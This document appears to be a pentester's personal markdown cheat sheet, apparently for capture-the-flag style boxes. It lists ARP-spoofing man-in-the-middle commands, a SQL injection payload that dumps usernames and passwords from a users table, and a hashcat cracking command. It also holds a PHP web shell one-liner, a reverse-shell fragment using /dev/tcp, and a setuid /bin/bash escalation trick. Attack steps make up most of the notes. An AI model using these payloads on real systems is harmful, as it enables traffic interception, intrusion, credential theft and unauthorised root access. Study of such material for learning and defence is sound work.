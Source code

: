 # (PART) Temporary Notes {-}

## MITM ARP Spoofing {-}

**ARP** is a protocol used to resolve network interface MAC addresses, this is used by computer to resolve host IP addresses to a mac address.
After performing an ARP run, hosts store the resoluting MAC addresse in a ARP cache table to avoid further useless ARP runs. If an Attacker is 
able to manipulate the ARP cache, he is also able to intercept traffic on a network, even a switched network.

Attacker steps:

1. Configure ip forwarding 
    ```bash
    echo 1 > /proc/sys/net/ipv4/ip_forward
    ```
1. Run Arpspoof tool 
    ```bash
    arpspoof -i eth0 -t <target_ip> -r <address of webserver>
    ```

> [ ! ] NOTE: everything sniffing on this kind of attack can be checked with Wireshark




## Enumeration {-}


```bash
openssl s_client -connect 
```



### websites {-}

exploit-db.com  
gtfobins.github.io  
https://github.com/danielmiessler/SecLists
wrapper lsi base64
rosettacode.org/wiki/Execute_a_system_command
pentestmonkey.net
hashcat wiki
Chisel github for port forwarding
payloadsAllTheTings github
seccure python github -> encryption
crackstation
gtfobins.github.io
shankro github
cirt.net/passwords -> default credentials


> [ ! ] Note: /etc/hosts for virtual hosting when direct ip not allowed




## priviledge Escalation {-}

```bash
id
#result
adm


cd /var/logs
find \-group adm \-type f 2>/dev/null | grep -v "\.gz" | xargs grep -E -i "post"
```


## sounds {-}

audacity

bloodhound &< /dev/null &


upx brute para reducir la tailla del binario


```bash
    &>/dev/null -> for no output printing
    2>/dev/null -> for no stderr printing
```




```bash
10.10.10.96/users/'union select group_concat(username, : ,password) from users_gbw-- -

hashcat -m 10900 -a 0 hashes /usr/share/wordlists/rockyou.txt
hashid
```
> [ ! ] Note: ${IFS} or %20 for spaces

website:



when php disabled function are fully:

if putenv() o mail()


<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>

extentions for php

Todo

bash -i >& /dev/tcp

backup bck back old swp ~

# compile with go {-}
(pspy)

go build -ldflags "-s -w" .

chmod u+s /bin/bash

which curl
which wget

wget -qO- <ip>


